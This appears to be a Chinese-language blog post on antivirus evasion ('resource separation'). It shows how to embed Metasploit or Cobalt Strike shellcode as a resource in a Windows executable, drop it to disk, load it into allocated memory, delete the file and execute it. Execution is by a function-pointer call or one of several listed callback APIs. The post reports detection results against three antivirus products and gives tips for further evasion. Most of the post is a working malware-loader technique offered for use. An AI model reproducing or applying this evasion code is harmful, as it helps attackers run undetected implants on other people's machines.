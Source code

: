 ```yaml
---
title: 资源分离免杀
tags: bypass
---
```


## 起因

很多文章都写到了分离免杀，采用的方法是将 shellcode 和 执行函数分离，开辟内存空间复制 shellcode，然后执行函数执行。改进版就是远程加载，让木马去下载存储在远程服务器的 shellcode。

昨天看 BackStab 代码的时候，它有一个将 ProcEXP.sys 放入资源文件，加载驱动前写入到磁盘的操作。这种操作其实就可以替代远程加载，只需要上传一个 exe 文件，在读取 shellcode 前先在当前目录释放一个 bin 文件，文件内容复制到开辟好的内存空间后再删除该文件，随后调用执行函数执行。

## 过程

### 加载资源

首先肯定是添加资源，随便添加什么资源，到时候再改就好了

![image-20210629164331246](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164331246.png)

在项目目录下新建一个 resources 文件夹，存上 MSF 或 CS 生成的 shellcode 文件：

![image-20210629164528797](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164528797.png)

打开 资源文件(.rc)，用编辑方式打开：

![image-20210629164646700](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629164646700.png)

修改资源文件

```c
#include "resource.h"

IDR_SYS RCDATA "..\\resources\\1.bin"
```

同样 resource.h 也应该修改

```
#define IDR_SYS                      101
```

### 资源释放

释放资源有两步，首先要定位资源并得到资源的大小和内容，然后写入文件。

第一步需要用到 4 个 API：

```c
// 确定资源位置，获得资源句柄
HRSRC FindResourceA(
  HMODULE hModule,	// NULL 代表当前进程或模块
  LPCSTR  lpName,	// 资源名称，MAKEINTRESOURCE(ID)，这里就是 MAKEINTRESOURCE(101)
  LPCSTR  lpType	// 资源类型，这里是RT_RCDATA，Application-defined resource (raw data)
);

//指定的资源加载到内存当中，获得句柄
HGLOBAL LoadResource(
  HMODULE hModule,	// Null 代表当前进程或模块
  HRSRC   hResInfo	// 资源句柄
);

// 锁定内存中的资源，返回指向资源数据的内存指针
LPVOID LockResource(
  HGLOBAL hResData
);

// 资源大小
DWORD SizeofResource(
  HMODULE hModule,
  HRSRC   hResInfo
);
```

这样就可以获得内存中资源数据的指针和资源大小。

第二步就是新建和写入文件

```c
HANDLE CreateFileW(
  LPCWSTR               lpFileName,
  DWORD                 dwDesiredAccess,	// GENERIC_WRITE
  DWORD                 dwShareMode,
  LPSECURITY_ATTRIBUTES lpSecurityAttributes,	// FILE_ATTRIBUTE_NORMAL
  DWORD                 dwCreationDisposition,	// CREATE_ALWAYS
  DWORD                 dwFlagsAndAttributes,
  HANDLE                hTemplateFile
);

BOOL WriteFile(
  HANDLE       hFile,
  LPCVOID      lpBuffer,	// LockResource 返回的指针
  DWORD        nNumberOfBytesToWrite,	// SizeofResource 返回的大小
  LPDWORD      lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);
```

### 文件写入到内存并删除

将释放出来的文件写入到内存中，用的还是老方法，开辟内存空间后打开文件，用 ReadFile 读到开辟好的内存空间中

```c
//申请内存空间
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);

//打开文件仍然用 CreateFileW，修改参数为打开并读取
CreateFileW("1.bin", GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL)

// 获取文件大小
DWORD GetFileSize(
  HANDLE  hFile,
  LPDWORD lpFileSizeHigh
);

// 读取文件到指定的缓冲器中
BOOL ReadFile(
  HANDLE       hFile,
  LPVOID       lpBuffer,	// 开辟的内存空间指针
  DWORD        nNumberOfBytesToRead,
  LPDWORD      lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

删除操作用的 DeleteFileW

```c
DeleteFileW(Path);
```

### 执行

执行的方法就很多了，经典执行：

```c
typedef void(__stdcall* CODE) ();
CODE code = (CODE)lpAddress;
code();
```
回调函数执行,[参考](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)：

```c
EnumFonts(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode, 0);

EnumFontFamiliesEx(GetDC(0), 0, (FONTENUMPROC)(char *)shellcode, 0, 0);

LineDDA(10, 11, 12, 14, (LINEDDAPROC)(char *)shellcode, 0);

EnumFontFamilies(GetDC(0), (LPCWSTR)0, (FONTENUMPROC)(char *)shellcode,0);

EnumDisplayMonitors((HDC)0,(LPCRECT)0,(MONITORENUMPROC)(char *)shellcode,(LPARAM)0);

GrayString(0, 0, (GRAYSTRINGPROC)(char *)shellcode, 1, 2, 3, 4, 5, 6);

CallWindowProc((WNDPROC)(char *)shellcode, (HWND)0, 0, 0, 0);

EnumResourceTypes(0, (ENUMRESTYPEPROC)(char *)shellcode, 0);
```

## 结果

杀软1检测：

![image-20210629174907927](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629174907927.png)

杀软2检测：

![image-20210629175207180](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629175207180.png)

杀软3检测：

![image-20210629180554436](https://gitee.com/tboom_is_here/pic/raw/master/img/image-20210629180554436.png)

## 后续

更改远程连接的地址只需要在编译前替换 resources 文件夹下的 bin 文件即可。

这里用的是 msf 生成的默认 shellcode 文件，被杀软检测出具备 MSF 特征，只需要对这个 bin 做处理就可以了，还可以更换执行函数来绕过杀软的检测，根据查杀的情况不同修改。

代码地址：https://github.com/Ryze-T/Bypass_frames